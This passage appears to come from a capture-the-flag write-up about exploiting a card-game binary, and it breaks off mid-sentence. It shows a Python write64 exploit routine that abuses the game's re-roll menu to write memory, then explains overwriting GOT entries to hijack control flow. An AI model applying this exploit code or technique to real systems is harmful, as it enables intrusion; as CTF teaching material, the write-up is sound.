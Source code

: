 ```python
def write64(r, offset, target):
    i = offset
    shift = 0
    while i != offset + 16:
        # We can't ever draw 0, so just skip it and hope
        if (target >> (shift ^ 4)) & 0xf == 0:
            print('bad')
            i += 1
            shift += 4
            continue
        # WE GAMBLE
        r.sendlineafter(b'option: ', b'2')
        r.sendlineafter(b'replace? ', str(i).encode())
        value = int(r.recvline().split(b'(')[-1].strip()[2:-1], 16)
        # reset game state
        r.sendlineafter(b'option: ', b'4')
        r.sendlineafter(b'option: ', b'1')
        if (target >> (shift ^ 4)) & 0xf == value:
            print(i, value)
            i += 1
            shift += 4
```

we can just keep re-rolling cards until we get what we like. Funny enough, you
can just leave the table! Our balance doesn't even change.

## The Kill

Now that we have a read and write gadget, we can start hijacking control flow. While
we don't have a stack ASLR offset, we can overwrite the GOT entries ourselves to direct
control flow wherever we want when a libc function is called. Let's list the functions here:

```
localtime
puts
__stack_chk_fail
setbuf
printf
gettimeofday
strcspn
srand
fgets
getchar
time
scanf
rand
```

Out of these, we can't use `puts`, `printf`, `getchar`, `scanf`, and `rand` since
they're used during our read/write gadgets, and would segfault before we finish our attack.
It's infeasible to reach `__stack_chk_fail` since we don't even know where the stack is. This
leaves us with:
